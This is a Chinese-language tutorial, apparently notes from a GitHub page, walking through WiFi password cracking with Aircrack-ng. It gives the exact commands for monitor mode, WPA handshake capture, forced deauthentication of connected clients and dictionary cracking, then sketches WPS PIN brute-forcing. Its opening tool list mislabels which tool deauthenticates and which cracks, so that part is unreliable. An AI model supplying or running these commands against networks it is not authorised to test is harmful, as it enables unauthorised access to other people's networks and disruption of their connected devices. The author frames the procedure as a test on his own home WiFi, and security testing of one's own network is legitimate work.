 # WIFI破解

### 使用Aircrack-ng套件抓包和破解wifi

Aircrack-ng套件：

airmon-ng（监听流量）、airodump-ng（抓无线握手包）、aircrack-ng（强制用户断开认证）、aireplay-ng（破解密码）

### 第一步 airmon-ng列出网卡信息

也可以使用 iwconfig 查看 无线网卡工作状态

![Untitled](png/Untitled.png)

我这里测试使用的是无线网卡wlan0。
自己的网卡是Qualcomm xxxx不知道为什么扫描不到wifi信号，只能买了一个网卡。。。

### 第二步 airmon-ng start wlan0 开启网卡监控

如果启动失败，可以尝试先清理一下阻碍的进程，运行如下命令后重新输入开启监控的命令

airmon-ng check kill

![Untitled](png/Untitled1.png)

airmon-ng stop wlan0mon #可以关闭网卡监控模式

可以使用ifconfig命令查看一下网卡信息，网卡的名字已经变了——wlan0mon。

网卡wlan0后面增加了mon（monitor）,说明wlan0监听模式启动成功。

![Untitled](png/Untitled2.png)

### 第三步 airodump-ng wlan0mon 扫描wifi信号

按Q或者【Ctrl+ C】可以退出并停止扫描。

![Untitled](png/Untitled3.png)

这里我用自己家的wifi做实验【CMCC-FNgH】

参数介绍：

1. 第四步 airodump-ng 抓取握手包
上图获取wifi信息如下：

BSSID是—— 8C:8F:8B:D2:F0:26
信道(CH)是—— 8

输入：

airodump-ng -c 8 -w wificap.cap --bssid 8C:8F:8B:D2:F0:26 wlan0mon
-c：指定信道
-w：指定抓去握手包的存放位置或者名字，wificap.cap 是一会抓去的握手包的名字
–bssid：指定路由器的MAC

![Untitled](png/Untitled4.png)

当看到这个界面就表示正在抓取握手包了。

这里的STATION下的 9C:BC:F0:D1:65:8A 就是正在使用这个wifi的客户端（手机、电脑等）

### 第五步 aireplay-ng 强制用户断开wifi重连

再开一个终端输入命令：

aireplay-ng -0 10 -a 路由器MAC -c 客户机MAC wlan0mon

![Untitled](png/Untitled5.png)

使用airplay-ng工具强制断开已经连接到wifi的设备断开链接，当设备重新连接路由器时，我们就可以抓到认证包了！

–0：指定发送反认证包（deauth）的个数

- a：指定路由器的MAC
- c：指定客户机的MAC

当airodump-ng 命令执行界面看到如下界面，就表示已经抓到握手包了，接下来就是破解hash了，你的cpu够强大吗？

![Untitled](png/Untitled6.png)

当然，如果执行aireplay-ng一次不能够抓到握手包，那么就再执行一次！

或者尝试重新运行抓包命令airodump-ng，注意一定要有STATION（有设备连接目标wifi）才能抓包！

### 第六步 使用密码字典，破解握手包

看一下抓到的文件：

![Untitled](png/Untitled7.png)

其中xxxx.cap文件就是我们接下来要执行破解的握手包啦~开心吧！

执行以下命令破解握手包：

aircrack-ng -a2 -w /home/eli/captures/dict.txt wificap.cap-01.cap

- a1：指定WEP加密方式【-a可省略】
-a2：指定WPA-PSk加密方式【-a可省略】
dict.txt：密码字典的文件路径【绝对路径】
xxxxx.cap：握手包【绝对路径】

![Untitled](png/Untitled8.png)

破解完成，成功与否靠强大的字典和运气了，破解速度就看你的CPU啦。

方法五：针对有wps功能的路由器，使用PIN码破解
简单来说，对于开启了WPS功能的路由器，当你知道了它的pin码，就可以连接到wifi并获取明文密码，不再需要其他认证措施。

pin码有8位，第8位是校验和，可以根据前7位算出，而这7位中前4位和后3位是分别认证的，认证成功会给出提示，所以爆破pin码只需11000次(10^4+10^3)即可保证100%成功。